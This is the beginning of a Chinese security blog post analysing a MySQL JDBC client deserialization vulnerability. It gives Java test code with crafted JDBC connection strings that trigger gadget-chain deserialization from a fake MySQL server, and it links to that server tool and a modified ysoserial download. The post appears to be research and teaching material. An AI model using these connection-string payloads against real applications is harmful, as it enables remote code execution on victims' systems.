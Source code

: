 > 原文链接: https://www.anquanke.com//post/id/203086 


# MySQL JDBC 客户端反序列化漏洞分析


                                阅读量   
                                **484997**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">2</a>
                                </b>
                                                                                    



[![](https://p2.ssl.qhimg.com/t0116c0e28b3a5aaef0.jpg)](https://p2.ssl.qhimg.com/t0116c0e28b3a5aaef0.jpg)



作者：fnmsd[@360](https://github.com/360)云安全

这几天学习了BlackHat Europe 2019的议题[《New Exploit Technique In Java Deserialization Attack》](https://i.blackhat.com/eu-19/Thursday/eu-19-Zhang-New-Exploit-Technique-In-Java-Deserialization-Attack.pdf)， 膜拜师傅们的同时，做一个简单的漏洞分析。

该漏洞需要能够控制客户端的JDBC连接串，在连接阶段即可触发，无需继续执行SQL语句。



## 测试代码

需要自行根据版本选择JDBC连接串，最后有基于各版本Connector连接串的总结。

```
public class test1 `{`
    public static void main(String[] args) throws Exception`{`
        String driver = "com.mysql.jdbc.Driver";
        String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?autoDeserialize=true&amp;queryInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&amp;user=yso_JRE8u20_calc";//8.x使用
        //String DB_URL = "jdbc:mysql://127.0.0.1:3306/test?detectCustomCollations=true&amp;autoDeserialize=true&amp;user=yso_JRE8u20_calc";//5.x使用
        Class.forName(driver);
        Connection conn = DriverManager.getConnection(DB_URL);
    `}`
`}`
```

MySQL服务器使用：[https://github.com/fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)

一个可以方便的辅助MySQL客户端文件读取和提供MySQL JDBC反序列化漏洞所需序列化数据的假服务器，看本文前请先简单看下工具说明。

这里提供一份我加了JRE8u20的YSOSerial用以测试（集成了n1nty师傅的代码，膜一下）：

> 链接：[https://pan.baidu.com/s/12o5UFaln0qDUo0hPcIR1Eg](https://pan.baidu.com/s/12o5UFaln0qDUo0hPcIR1Eg) 提取码：qdfc
